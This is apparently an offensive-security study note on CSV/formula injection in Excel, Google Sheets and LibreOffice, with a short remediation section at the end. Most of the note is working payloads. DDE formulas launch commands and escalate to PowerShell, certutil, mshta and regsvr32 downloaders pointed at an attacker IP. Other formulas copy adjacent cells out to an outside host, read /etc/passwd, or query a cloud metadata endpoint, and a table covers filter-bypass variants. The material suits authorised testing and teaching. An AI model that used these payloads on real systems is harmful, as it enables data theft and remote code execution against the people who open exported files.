

# CSV Injection

#CSVInjection #FormulaInjection #DDE #Spreadsheet #Excel #LibreOffice #GoogleSheets #Exfiltration #SSRF #WebAppAttacks #CWE1236

## What is this?

CSV Injection (a.k.a. **Formula Injection**) is a *stored* injection where attacker-controlled text is written into a CSV/XLSX/TSV export without neutralising the characters that a spreadsheet treats as the start of a formula (`=`, `+`, `-`, `@`, tab, CR). The app is never the victim — the payload sleeps in the database until someone **exports and opens** the file, then executes with the privileges of whoever opened it (usually finance, HR, or an admin), or **on the server** if the app renders spreadsheets itself.

Reach for it whenever an app has an "Export to CSV/Excel" button, emails reports, or converts uploaded spreadsheets. It is the classic way to turn a low-value stored-text field (username, ticket title, device name) into out-of-band data theft or workstation code execution.

Pairs with [[Class notes/HTB Academy/CPTS v2 (claude)/Command Injection|Command Injection]], [[Class notes/HTB Academy/CWES Claude/Server-Side Attacks|Server-Side Attacks]] (SSRF), [[File Upload Attacks]], [[Cross-Site Scripting (XSS)]].

---

## Tools

| Tool | Use |
|---|---|
| [[Tools/Web/Burpsuite\|Burp Suite]] | Intruder over every field that reaches an export; Collaborator as the OOB catcher |
| [payload-box/csv-injection-payload-list](https://github.com/payload-box/csv-injection-payload-list) | 106-line Intruder list — `Intruder/csv-injection-intruder.txt` (see [[#Payload List — payload-box]]) |
| [PayloadsAllTheThings — CSV Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSV%20Injection) | DDE obfuscation variants + Google Sheets `IMPORT*` reference |
| `libreoffice --headless` | Detonate the downloaded export safely in a VM; also replicates a server-side converter |
| `python3 -m http.server 8001` | OOB catcher for `WEBSERVICE`/`IMPORTXML`/`HYPERLINK` callbacks |
| `tcpdump -i any -n port 53` / `responder` | DNS-only egress path when HTTP is blocked |

> [!warning] Only detonate exports inside a throwaway VM with no network path to anything you care about. You are deliberately running an attacker's command in a desktop app — do not open these on the engagement laptop.

---

## Where the Sink Lives

Finding the **export** matters more than finding the injection. Inventory these first:

| Sink | Typical trigger |
|---|---|
| "Export / Download CSV" in an admin or reporting UI | Attacker registers a user, opens a ticket, renames a device |
| Scheduled or emailed reports (billing, audit, usage) | Payload fires days later on a finance workstation |
| **Second-order** — your input lands in logs/CRM/SIEM that *someone else* exports | User-Agent, login name, referrer, Azure/CloudTrail log fields |
| **Server-side render** — XLSX→PDF/PNG conversion, thumbnail preview, spreadsheet import API | No human needed; formulas evaluate on the server |



---

## Trigger Characters

| Char | Notes |
|---|---|
| `=` | Canonical formula start — Excel, Calc, Sheets |
| `+` | Also parsed as a formula (why `+441234...` phone numbers are the classic false positive) |
| `-` | Leading minus is parsed as a formula |
| `@` | Legacy Lotus function prefix — enables `@SUM(...)`, `@DDE(...)` |
| `\t` (0x09) | Leading tab is stripped, the *next* char is evaluated — beats naive "first char" checks |
| `\r` (0x0D) | Same, and can split the value into a new row |
| `\n` (0x0A) | Row split — repositions the payload to the start of a cell |

> [!note] **A first-character check on the whole input is not a control.** OWASP is explicit: the attacker can inject the field separator or a quote to *start a new cell*, putting the dangerous character at the beginning of that cell while the overall input starts with something harmless. Always test `harmless,=1+1` and `harmless","=1+1` alongside the plain payloads.

---

## Testing Workflow

**1 — Benign confirmation.** Never lead with `cmd|`. Submit arithmetic, export, and look at the rendered cell:

```text
=1+1
=1+2+3
=SUM(1+1)
@SUM(1+1)
+1+1
-1+1
```

A cell showing `2` (not `=1+1`) proves formula evaluation. That one screenshot is the finding.

**2 — Blind / no access to the export.** You often can't see the file (an admin downloads it). Go out-of-band and wait:

```text
=WEBSERVICE("http://10.10.14.5:8001/hit-<field>")
=IMPORTXML("http://10.10.14.5:8001/hit-<field>","//a")
=HYPERLINK("http://10.10.14.5:8001/hit-<field>","Click to view details")
```

```bash
# Catcher — tag each payload per field so the hit tells you which one landed
python3 -m http.server 8001
```

**3 — Prove impact, not just evaluation.** Move to [[#Data Exfiltration]] and pull an adjacent cell into the callback URL.

**4 — Bypass the filter** if `=` comes back escaped — see [[#Filter Bypasses]].

---

## Excel — DDE Command Execution

```text
=cmd|'/c calc'!A1
=cmd|'/C calc'!A0
=cmd|' /C calc'!'A1'
=10+20+cmd|' /C calc'!A0
@SUM(1+9)*cmd|' /C calc'!A0
=DDE("cmd";"/C calc";"!A0")
=MSEXCEL|'\..\..\..\Windows\System32\cmd.exe /c calc'!A1
```

Syntax: `cmd` is the DDE **server** to talk to, `/C calc` the command, `!A0` the requested item.

Escalating from `calc` to a shell — pair with [[Shells & Payloads]]:

```text
=cmd|'/C powershell IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.5:8001/shell.ps1")'!A0
=cmd|'/c certutil -urlcache -split -f http://10.10.14.5:8001/payload.exe C:\temp\payload.exe'!A0
=cmd|'/c mshta http://10.10.14.5:8001/payload.hta'!A0
=cmd|'/c regsvr32 /s /n /u /i:http://10.10.14.5:8001/file.sct scrobj.dll'!A0
=cmd|'/c rundll32.exe \\10.10.14.5\share\1.dll,0'!_xlbgnm.A1
```

> [!warning] **DDE is a legacy vector — do not build the report around it.** Microsoft disabled DDE by default across supported Excel versions in the 2017 patch wave. On a current install the payload needs DDE re-enabled *and* the victim clicking through the "update links" / "start application" prompts. It still lands on unpatched estates, locked-old-version finance machines, and — importantly — **server-side converters**, which click nothing and just evaluate.

> [!note] `=EXEC("calc")` and `=SYSTEM("calc")` appear in most payload lists. They are **Excel 4.0 macro (XLM) functions** and only run on a macro sheet — they do nothing in a normal worksheet cell. Keep them in the list for legacy/alternate engines; don't expect them to fire in Excel and don't report them as untested "RCE payloads".

---

## Excel — Exfiltration Without DDE

These are the payloads that still work on a patched 2026 desktop, and neither is blocked by the DDE mitigation:

```text
=WEBSERVICE("http://10.10.14.5:8001/?d="&A1)
=WEBSERVICE(CONCATENATE("http://10.10.14.5:8001/?d=",A1,"-",B1))
=HYPERLINK("http://10.10.14.5:8001/?d="&A2,"Click here to resolve this error")
```

| Function | Interaction required | Notes |
|---|---|---|
| `WEBSERVICE` | Victim leaves Protected View / enables external content | Desktop Excel 2013+ on Windows only — absent from Excel for the web |
| `HYPERLINK` | Victim clicks the link | No external-content prompt; survives most hardening because it *is* normal spreadsheet behaviour |
| `IMAGE` | Varies by build | Test it on the day rather than assuming a silent fetch |

`HYPERLINK` is the reliable one for a report: bait text in the second argument (`"Click here to resolve this error"`), victim data concatenated into the URL.

---

## Google Sheets

Sheets has no DDE, but the `IMPORT*` family fetches remote URLs — which makes it an exfiltration engine:

```text
=IMPORTXML(CONCAT("http://10.10.14.5:8001/?v=",CONCATENATE(A2:E2)),"//a/@href")
=IMPORTDATA(CONCAT("http://10.10.14.5:8001/?v=",JOIN(",",A2:E2)))
=IMPORTFEED(CONCAT("http://10.10.14.5:8001/?v=",CONCATENATE(A2:E2)))
=IMPORTHTML(CONCAT("http://10.10.14.5:8001/?v=",CONCATENATE(A2:E2)),"table",1)
=IMAGE("http://10.10.14.5:8001/logo.png")
=IMPORTRANGE("<other-spreadsheet-url>","Sheet1!A1:Z100")
```

> [!tip] `IMPORT*` formulas **recalculate when their dependent cells change** — so a single planted cell keeps streaming as the victim edits the sheet, not just once at open. Bishop Fox used exactly this to capture credentials as an administrator typed them in.

> [!note] Sheets prompts once — "this formula wants to connect to an external service / allow access" — and the import is dead until the user accepts. `IMPORTRANGE` is worth a try where the victim account can read a spreadsheet you cannot.

---

## LibreOffice Calc

Calc's DDE-style link syntax reads **local files** straight into cells, and `WEBSERVICE` sends them back out:

```text
# Local file read into a cell
='file:///etc/passwd'#$passwd.A1

# Read + exfiltrate in one formula
=WEBSERVICE(CONCATENATE("http://10.10.14.5:8001/",('file:///etc/passwd'#$passwd.A1)))

# Multiple lines, CHAR(36) = '$' as the separator
=WEBSERVICE(CONCATENATE("http://10.10.14.5:8001/",('file:///etc/passwd'#$passwd.A1)&CHAR(36)&('file:///etc/passwd'#$passwd.A2)))

# DNS-only egress — URL-encode, swap '%' for '-', prepend as a subdomain label
=WEBSERVICE(CONCATENATE((SUBSTITUTE(MID((ENCODEURL('file:///etc/passwd'#$passwd.A19)),1,41),"%","-")),".<FQDN>"))
```

These need the victim to accept the **"update links"** dialog.

### CVE-2018-6871 — silent arbitrary file disclosure

LibreOffice **< 5.4.5** and **6.x < 6.0.1** let `WEBSERVICE` take a `file://` URL with **no prompt at all**:

```text
=WEBSERVICE("/etc/passwd")
=WEBSERVICE("http://10.10.14.5:8001/?q=" & WEBSERVICE("/etc/passwd"))
```

Fixed by restricting `WEBSERVICE` to http/https and bringing its URLs under Calc's link management. PoC: [jollheef/libreoffice-remote-arbitrary-file-disclosure](https://github.com/jollheef/libreoffice-remote-arbitrary-file-disclosure), exploit-db **44022**. Still relevant on pinned LTS/appliance builds and headless converters that nobody patches.

---

## Server-Side Spreadsheet Injection

The high-severity variant: the *application* evaluates the formula, so there is no victim to social-engineer and no prompt to click.

**Spot the sink:** XLSX/CSV → PDF or PNG conversion, spreadsheet thumbnail previews, "import your data" pipelines, invoice/report renderers, anything that mentions ActivePDF, LibreOffice headless, Aspose, or a Google Sheets API ingest.

```text
# 1. Does the renderer evaluate at all, and can it reach me? (blind SSRF probe)
=WEBSERVICE("http://10.10.14.5:8001/ssrf-probe")

# 2. HTTP blocked? Test DNS egress separately before giving up
=WEBSERVICE("http://probe.<your-dns-log-domain>")

# 3. Local file read (LibreOffice-backed converters)
=WEBSERVICE(CONCATENATE("http://10.10.14.5:8001/",('file:///etc/passwd'#$passwd.A1)))

# 4. Cloud metadata via the SSRF primitive
=WEBSERVICE("http://169.254.169.254/latest/meta-data/iam/security-credentials/")
```

| Observed case | Chain | Outcome |
|---|---|---|
| Google Sheets ingest | `=IFERROR(IMPORTDATA(CONCAT("http://10.10.14.5:8001/save/",JOIN(",",B3:B18))),"")` | Live-streamed exfil of the sheet, including creds typed later |
| XLS→image converter | DDE `=cmd\|'/c powershell ...'!A0` with an MSF `web_delivery` stager | RCE on the conversion server |
| Egress-restricted converter | `WEBSERVICE` probes to map egress, then chained `=cmd\|'/C echo\|set /p="<b64-chunk>" > <path>\a.enc'!A0` writes | Payload reassembled on disk → interactive shell over DNS |

> [!note] IMDSv2 needs a `PUT` with a token header, so a plain `WEBSERVICE` GET only reaches **IMDSv1**. A no-response there is not proof the host is safe.

---

## Data Exfiltration

Evaluation alone is a weak finding. Pull a neighbouring cell into the callback and the finding writes itself:

```text
# Excel — victim clicks
=HYPERLINK("http://10.10.14.5:8001/?d="&A2&"-"&B2,"Click here to resolve this error")

# Excel — no click, once external content is allowed
=WEBSERVICE("http://10.10.14.5:8001/?d="&A1)

# Sheets — whole row, recalculates on every edit
=IMPORTXML(CONCAT("http://10.10.14.5:8001/?v=",CONCATENATE(A2:E2)),"//a/@href")

# Calc — local file, no cell needed
=WEBSERVICE(CONCATENATE("http://10.10.14.5:8001/",('file:///etc/passwd'#$passwd.A1)))
```

> [!tip] Reference cells **relative to where your payload lands**. If your injected username renders in column A, the salary/token/hash you want is usually in the same row — `B2`, `C2` — not a fixed cell you guessed from a different export.

---

## Filter Bypasses

| Bypass | Payload | Beats |
|---|---|---|
| Leading tab | `\t=cmd\|'/c calc'!A1` | "first char is `=+-@`" checks |
| Encoded prefix | `%09=1+1` · `%0A=1+1` · `%0D=1+1` | Validation that runs **before** a decode step |
| Fully encoded | `%3D1%2B1` · `%3Dcmd%7C%27%2Fc%20calc%27%21A1` | URL-decoding sinks |
| New-cell escape | `harmless,=1+1` · `harmless","=1+1` | Whole-input checks — the char is first in a *cell*, not the field |
| Arithmetic prefix | `=10+20+cmd\|' /C calc'!A0` · `=2+5+cmd\|' /C calc'!A0` | "looks like a number" heuristics |
| Whitespace padding | `=         cmd\|'/c calc.exe'!A` | Exact-string blocklists |
| Null/space splitting | `=  C  m D  \|  '/  c  c al c . e x e '  !  A` | Keyword blocklists on `cmd` |
| Alternate DDE server | `=rundll32\|'URL.dll,OpenURL calc.exe'!A` · `=MSEXCEL\|'\..\..\..\Windows\System32\cmd.exe /c calc'!A1` | Blocklists matching only `cmd` |
| Function nesting | `=IF(1=1,cmd\|'/c calc'!A1,"false")` · `=IFERROR(cmd\|'/c calc'!A1,"error")` · `=CONCATENATE(cmd\|'/c calc'!A1)` | Regexes anchored on `^=cmd` |
| Escaping regression | `'=1+1` · `'=cmd\|'/c calc'!A1` | Excel may **drop the escaping quote on save→reopen**, re-arming the formula |

> [!warning] That last row is the one defenders miss. OWASP notes Excel can strip quotes/escapes when a CSV is saved and re-opened — so a previously neutralised formula becomes live again. Test the save-and-reopen cycle before accepting `'`-prefixing as a fix.

---

## Payload List — payload-box

```bash
curl -sO https://raw.githubusercontent.com/payload-box/csv-injection-payload-list/main/Intruder/csv-injection-intruder.txt
wc -l csv-injection-intruder.txt      # 106
```

Load it into **Burp Intruder** (sniper) against every stored field that reaches an export. Grouping inside the file:

| Block | Contents |
|---|---|
| Arithmetic probes | `=1+1`, `=SUM(A1:A10)`, `@SUM(1+1)`, `+1+1`, `-1+1` — the safe confirmation set |
| DDE / `cmd` | The bulk of the file — `calc`/`notepad` proofs plus PowerShell, certutil, bitsadmin, mshta, regsvr32, rundll32, `net user /add`, `schtasks` |
| `HYPERLINK` | Click-through exfil and `file:///C:/Windows/System32/calc.exe` |
| Remote fetch | `IMPORTXML`, `IMPORTFEED`, `WEBSERVICE` |
| Obfuscation | Tab-prefixed, `'`-prefixed, URL-encoded, `%0A`/`%0D`/`%09`-prefixed, arithmetic-prefixed, `IF`/`IFERROR`/`CONCATENATE`-nested |
| XLM macro | `=EXEC("calc")`, `=SYSTEM("calc")` — macro-sheet only, see the note above |

> [!note] Read the list critically. It is **Windows/DDE-heavy and legacy-leaning** — only a handful of entries (`WEBSERVICE`, `HYPERLINK`, `IMPORTXML`, `IMPORTFEED`) are what will actually land on a patched 2026 target. The `'`-prefixed and URL-encoded entries are **filter/escaping regression tests**, not extra attacks. Pair it with the [[#Google Sheets]] and [[#LibreOffice Calc]] payloads above, which the list barely covers.

> [!tip] Intruder's HTTP responses tell you nothing here — the payload is stored, the evidence is in a file you download later. Tag each payload so the export identifies the hit, then diff the download:
> ```bash
> # Suffix an ID so a hit in the export maps back to the payload that produced it
> awk '{print $0 "  #ID" NR}' csv-injection-intruder.txt > tagged.txt
> ```

---

## Remediation & Reporting

### What actually fixes it

| Control | Verdict |
|---|---|
| Reject/strip leading `=`, `+`, `-`, `@`, tab, CR, LF **per cell** | Baseline — must also account for separators and quotes that start a new cell |
| Prefix the cell with `'` | Common advice, **not sufficient alone** — Excel may strip it on save→reopen (test it) |
| Wrap in double quotes and escape internal quotes | Helps, same save/reopen caveat |
| Export **XLSX with explicit string cell types** instead of raw CSV | Best fix — the cell is typed as text, no parse-time formula decision |
| Library flags (e.g. json-2-csv `preventCsvInjection`) | Only as good as the version — **CVE-2026-9673** (CVSS 6.8) bypassed exactly that flag in json-2-csv `>=3.15.0 <5.5.11` |
| Client hardening — Trust Center: DDE off, external content off, Protected View on | Defence in depth, not a substitute for output encoding |

### Making the finding stick

- **CWE-1236** — Improper Neutralization of Formula Elements in a CSV File.
- Expect triage pushback: it needs a victim to open a file, so it is routinely downgraded to low/informational. **Google's VRP explicitly treats CSV formula injection as an invalid report.**
- Counter it with impact, not theory: name the exact export and the role that opens it, show an OOB callback carrying *real* data from an adjacent cell, and where a server-side renderer is involved, show it firing with **no human interaction** — that one reframes the whole finding as SSRF/RCE rather than a spreadsheet quirk.

---

## Quick Reference

| Goal | Payload |
|---|---|
| Confirm evaluation (safe) | `=1+1` → cell renders `2` |
| Confirm blind (OOB) | `=WEBSERVICE("http://10.10.14.5:8001/hit")` |
| Confirm blind (Sheets) | `=IMPORTXML("http://10.10.14.5:8001/hit","//a")` |
| Exfil adjacent cell, click | `=HYPERLINK("http://10.10.14.5:8001/?d="&A2,"Click to resolve")` |
| Exfil adjacent cell, no click | `=WEBSERVICE("http://10.10.14.5:8001/?d="&A1)` |
| Exfil a row (Sheets) | `=IMPORTXML(CONCAT("http://10.10.14.5:8001/?v=",CONCATENATE(A2:E2)),"//a/@href")` |
| Local file read (Calc) | `='file:///etc/passwd'#$passwd.A1` |
| Silent file read (Calc < 5.4.5 / < 6.0.1) | `=WEBSERVICE("/etc/passwd")` — CVE-2018-6871 |
| DDE proof (legacy) | `=cmd\|'/c calc'!A1` |
| DDE → shell | `=cmd\|'/C powershell IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.5:8001/shell.ps1")'!A0` |
| Beat a first-char filter | `\t=1+1` · `harmless,=1+1` · `%0A=1+1` |
| Beat a `cmd` blocklist | `=rundll32\|'URL.dll,OpenURL calc.exe'!A` |
| Server-side SSRF probe | `=WEBSERVICE("http://10.10.14.5:8001/ssrf-probe")` |
| Get the list | `curl -sO https://raw.githubusercontent.com/payload-box/csv-injection-payload-list/main/Intruder/csv-injection-intruder.txt` |

---

> [!note] **See also** — [[Tools/Web/Burpsuite|Burp Suite]] — Intruder + Collaborator for the blind case; [[Class notes/HTB Academy/CPTS v2 (claude)/Command Injection|Command Injection]] — the DDE payloads are the same OS-command tradecraft; [[Class notes/HTB Academy/CWES Claude/Server-Side Attacks|Server-Side Attacks]] — server-side rendering turns this into SSRF/file read; [[File Upload Attacks]] — uploaded spreadsheets that get converted server-side; [[Cross-Site Scripting (XSS)]] — the other stored-input-fires-later class.

---

*Created: 2026-09-17*
*Updated: 2026-09-17*
*Model: claude-opus-5*
